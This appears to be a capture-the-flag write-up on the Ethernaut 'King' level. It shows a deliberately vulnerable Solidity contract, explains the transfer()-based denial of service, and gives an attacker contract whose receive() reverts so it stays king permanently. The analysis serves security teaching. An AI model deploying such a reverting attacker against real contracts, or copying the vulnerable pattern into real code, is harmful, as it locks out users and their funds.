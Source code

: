 # KING: DoS 

## Vulnerable Contract
- recieve:
  - sends ether to current king if value is ==> than current prize.
  - sets king equal to new king
  - prize is == to msg.value

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
    address king;
    uint256 public prize;
    address public owner;

    constructor() payable {
        owner = msg.sender;
        king = msg.sender;
        prize = msg.value;
    }

    receive() external payable {
        require(msg.value >= prize || msg.sender == owner);
        payable(king).transfer(msg.value);
        king = msg.sender;
        prize = msg.value;
    }

    function _king() public view returns (address) {
        return king;
    }
}
```
## 🚨 Risks with This Line: 
```payable(king).transfer(msg.value);```
  - Denial of Service (DoS) via Reverting Contract
    - If someone becomes the king using a contract with no fallback/receive function, or with one that explicitly reverts, then:
    - The next time someone sends Ether, this transfer() line will revert.
    - This makes the current king permanent, because the contract is "stuck" trying to send them Ether but failing.

-  Gas Limit Assumptions Are Obsolete
    - transfer() was historically recommended for safety (limited gas), but:
   - Since EIP-1884, certain operations cost more gas.
   - The 2300 gas limit may not always be safe or sufficient.
   - New best practices discourage the use of transfer() in favor of call.



## Attacker Contract:
 - When deployed:
   - send ether to King contract (now we're king)
 - receive():
   -  when we're dethrown, King contract sends ether to us.
   -  revert() is triggered, thus a Denial of service attack as contract is stuck
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract AttackKing {
    constructor(address payable _kingContract) payable {
        (bool sent, ) = _kingContract.call{value: msg.value}("");
        require(sent, "Transfer failed");

    }
       // Any attempt to send Ether to this contract will revert
    receive() external payable { 
        revert("intensionally");
    }
}
```

🧠 Key Insight
- .transfer() is brittle because:
 - It forwards only 2300 gas
 - It reverts if anything goes wrong
 - It doesn’t let you recover or handle failures
 - Contracts that intentionally reject Ether or are incompatible with transfer() will break it
